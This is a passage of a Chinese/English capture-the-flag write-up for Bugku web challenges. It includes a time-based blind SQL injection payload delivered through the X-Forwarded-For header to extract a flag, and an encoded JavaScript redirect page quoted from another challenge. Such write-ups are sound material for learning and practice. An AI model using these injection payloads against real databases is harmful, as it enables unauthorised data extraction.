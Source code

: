 然后这里就是要post一个cookie，其中的参数是margin=margin,而且要把filename设置为
keys.php的base64编码形式。这个就在burpsuite中操作：


## bugku--insert into

the injection point is as follows:

> $sql="insert into client_ip (ip) values ('$ip')";

the $ip comes from "x-forwarded-for"

and before this code, the symbol ',' has been filtered in our input;

payload are as followed:

```sql
  127.0.0.1+(select case when substr((select flag from flag) from 1 for 1)='C' then sleep(5) else 0 end)-- +
```

>the '+' on the tail is not for annotation,instead it exists for the blank space before
,because the posted data's last space will be ignored ,but adding another symbol after the space
can avoid it.

## never give up

查看源代码，看见注释`<!--1p.html-->`

修改url，进入的是ctf的主页，在viewsource中修改代码，得到了另一个网页的源代码，查找得到
可能是重定向。

```html

<HTML>
<HEAD>
<SCRIPT LANGUAGE="Javascript">
<!--


var Words ="%3Cscript%3Ewindow.location.href%3D%27http%3A//www.bugku.com%27%3B%3C/script%3E%20%0A
%3C%21--JTIyJTNCaWYlMjglMjElMjRfR0VUJTVCJTI
3aWQlMjclNUQlMjklMEElN0IlMEElMDloZWFkZXIlMjglMjdMb2NhdGlvbiUzQSUyMGhlbGxvLnBocCU
zRmlkJTNEMSUyNyUyOSUzQiUwQSUwOWV4aXQlMjglMjklM0IlMEElN0QlMEElMjRpZCUzRCUyNF9HRVQ
lNUIlMjdpZCUyNyU1RCUzQiUwQSUyNGElM0QlMjRfR0VUJTVCJTI3YSUyNyU1RCUzQiUwQSUyNGIlM0Q
lMjRfR0VUJTVCJTI3YiUyNyU1RCUzQiUwQWlmJTI4c3RyaXBvcyUyOCUyNGElMkMlMjcuJTI3JTI5JTI
5JTBBJTdCJTBBJTA5ZWNobyUyMCUyN25vJTIwbm8lMjBubyUyMG5vJTIwbm8lMjBubyUyMG5vJTI3JTN
CJTBBJTA5cmV0dXJuJTIwJTNCJTBBJTdEJTBBJTI0ZGF0YSUyMCUzRCUyMEBmaWxlX2dldF9jb250ZW5
0cyUyOCUyNGElMkMlMjdyJTI3JTI5JTNCJTBBaWYlMjglMjRkYXRhJTNEJTNEJTIyYnVna3UlMjBpcyU
yMGElMjBuaWNlJTIwcGxhdGVmb3JtJTIxJTIyJTIwYW5kJTIwJTI0aWQlM0QlM0QwJTIwYW5kJTIwc3R
ybGVuJTI4JTI0YiUyOSUzRTUlMjBhbmQlMjBlcmVnaSUyOCUyMjExMSUyMi5zdWJzdHIlMjglMjRiJTJ
DMCUyQzElMjklMkMlMjIxMTE0JTIyJTI5JTIwYW5kJTIwc3Vic3RyJTI4JTI0YiUyQzAlMkMxJTI5JTI
xJTNENCUyOSUwQSU3QiUwQSUwOXJlcXVpcmUlMjglMjJmNGwyYTNnLnR4dCUyMiUyOSUzQiUwQSU3RCU
wQWVsc2UlMEElN0IlMEElMDlwcmludCUyMCUyMm5ldmVyJTIwbmV2ZXIlMjBuZXZlciUyMGdpdmUlMjB
1cCUyMCUyMSUyMSUyMSUyMiUzQiUwQSU3RCUwQSUwQSUwQSUzRiUzRQ%3D%3D--%3E"
function OutWord()
{
var NewWords;
NewWords = unescape(Words);//unescape()函数可对通过 escape()编码的字符串进行解码。
//该函数的工作原理是这样的：通过找到形式为 %xx 和 %uxxxx 的字符序列（x 表示十六进制的数字），
//用 Unicode 字符 \u00xx 和 \uxxxx 替换这样的字符序列进行解码。
document.write(NewWords);
//把东西直接写道html页面里面
}
OutWord();
// -->

</SCRIPT>
```